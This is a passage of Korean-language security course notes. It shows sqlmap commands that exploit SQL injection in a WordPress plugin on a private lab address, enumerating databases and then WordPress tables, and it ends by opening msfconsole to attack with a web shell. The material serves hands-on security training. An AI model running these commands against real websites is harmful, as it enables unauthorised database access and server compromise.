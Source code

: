 아까 안된거 sqlmap으로 한 번 돌려보자. sql 공격 알 수 있다.

```
sudo sqlmap -u "http://192.168.20.132:8000/wp-content/plugins/google-document-embedder/view.php?embedded=1&gpid=0" --dbs
```

![image-20200911113732424](secure_day9.assets/image-20200911113732424.png)

테이블 확인해보자

```
sudo sqlmap -u "http://192.168.20.132:8000/wp-content/plugins/google-document-embedder/view.php?embedded=1&gpid=0" -D wordpress -tables
```

![image-20200911114314366](secure_day9.assets/image-20200911114314366.png)

웹쉘로 공격하기 위해 msfconsole 접속

![image-20200911131045840](secure_day9.assets/image-20200911131045840.png)

